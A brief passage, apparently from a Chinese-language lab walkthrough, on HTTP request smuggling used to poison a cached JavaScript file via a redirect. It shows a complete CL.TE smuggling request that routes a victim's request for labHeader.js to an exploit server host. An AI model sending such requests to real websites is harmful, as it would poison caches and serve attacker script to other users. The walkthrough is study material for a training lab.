 点击next page的时候会有跳转，这里lab给了我们用于制造投毒的服务，选择在`/resources/labheader/js/labHeader.js`进行投毒：

![image-20221009230351715](2022-10-HTTP/image-20221009230351715.png)



```http
POST / HTTP/1.1
Host: 0a4d00aa034f37b3c07f0706003000fc.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 180
Transfer-Encoding: chunked

0

GET /post/next?postId=3 HTTP/1.1
Host: exploit-0a2a001103fb3720c0e707a401e90038.exploit-server.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 10

x=1
```
